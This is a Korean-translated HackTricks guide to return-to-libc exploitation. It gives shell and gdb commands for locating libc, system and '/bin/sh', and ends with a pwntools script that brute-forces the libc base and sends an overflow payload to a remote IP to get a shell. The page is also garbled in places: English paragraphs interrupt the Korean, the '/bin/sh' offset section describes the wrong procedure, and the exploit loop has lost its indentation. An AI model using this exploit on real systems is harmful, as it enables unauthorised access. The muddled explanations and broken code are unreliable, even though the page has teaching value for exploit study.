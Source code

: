 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>


**취약한 이진 파일을 찾았고 Ret2Lib을 사용하여 공격할 수 있다고 생각한다면, 다음은 따를 수 있는 몇 가지 기본 단계입니다.**

# **호스트 내부**에 있다면

## **lib**c의 **주소를 찾을 수 있습니다**.
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
ASLR가 libc의 주소를 변경하는지 확인하려면 다음을 수행할 수 있습니다:
```bash
for i in `seq 0 20`; do ldd <Ejecutable> | grep libc; done
```
## 시스템 함수의 오프셋 얻기

To exploit a binary using a return-to-libc attack, we need to know the offset of the `system` function in the target system's libc library. This offset will help us determine the address of the `system` function in memory.

To find the offset, we can use the `nm` command to list the symbols in the libc library and search for the `system` function. The offset will be the difference between the address of the `system` function and the base address of the libc library.

Here's an example command to find the offset:

```bash
nm -D /lib/x86_64-linux-gnu/libc.so.6 | grep system
```

This command will list all the symbols in the libc library and filter for the `system` function. The output will include the address of the `system` function, which we can use to calculate the offset.

Once we have the offset, we can use it in our exploit to calculate the address of the `system` function dynamically, without relying on hardcoded addresses.
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
## "/bin/sh"의 오프셋 얻기

To get the offset of "/bin/sh" in the binary, we can use the following steps:

1. Find a vulnerable function or a buffer overflow vulnerability in the binary.
2. Craft a payload that overflows the buffer and overwrites the return address.
3. Use a debugger or a tool like GDB to determine the exact offset at which the return address is overwritten.
4. Calculate the offset of "/bin/sh" by subtracting the known address of the buffer from the address of "/bin/sh" in memory.

By following these steps, you can obtain the offset of "/bin/sh" and use it in your exploit.
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
## /proc/\<PID>/maps

만약 프로세스가 매번 대화할 때마다 **자식 프로세스**를 생성한다면 (네트워크 서버인 경우), 이 파일을 **읽어보세요** (아마도 root 권한이 필요할 것입니다).

여기에서 프로세스 내부에 **libc가 정확히 어디에 로드되어 있는지**와 프로세스의 모든 자식들이 로드될 위치를 찾을 수 있습니다.

![](<../../.gitbook/assets/image (95).png>)

이 경우에는 **0xb75dc000**에 로드되어 있습니다 (이것이 libc의 기본 주소가 될 것입니다).

## gdb-peda 사용하기

gdb-peda를 사용하여 **system** 함수, **exit** 함수 및 **"/bin/sh"** 문자열의 주소를 얻으세요:
```
p system
p exit
find "/bin/sh"
```
# ASLR 우회하기

libc의 기저 주소를 무차별 대입(bruteforce)하여 시도할 수 있습니다.
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
# 코드
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()    #Banner

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive() #?
```
<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>
